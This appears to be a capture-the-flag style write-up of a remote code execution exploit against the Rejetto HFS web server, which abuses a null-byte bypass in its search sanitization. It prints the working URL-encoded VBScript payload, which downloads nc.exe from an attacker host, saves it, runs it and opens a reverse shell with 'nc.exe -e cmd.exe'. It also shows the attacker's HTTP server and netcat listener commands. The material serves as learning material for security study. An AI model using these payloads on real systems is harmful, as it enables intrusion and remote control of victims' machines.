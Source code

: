```
vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
save= "save|" + vbs

# cscript.exe C:\Users\Public\script.vbs
vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
exe= "exec|"+vbs2
# "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
exe1= "exec|"+vbs3
script_create()
execute_script()
nc_run()
```

I decoded the URL strings to make it easier to read. 

The idea of this exploit is that the search function is not properly sanitized. So we can add a null-byte `%00` at the beginning to escape the sanitization. In addition to this we have to understand how to send code after the escape. 

https://portswigger.net/blog/null-byte-attacks-are-alive-and-well has a great explanation of how null bytes work.

`%00` Essentially marks the end of the string. So when the sanitization regex sanitizes the input, it does not change anything after the null-byte.

We can see how the Rejetto scripting works here: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands 



In addition we need to run a webserver to upload netcat, and listen for a connection.

```
kali@kali:~$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

And:

```
kali@kali:~$ sudo nc -nlvp 443
Listening on 0.0.0.0 443
```

![](images/2.png)
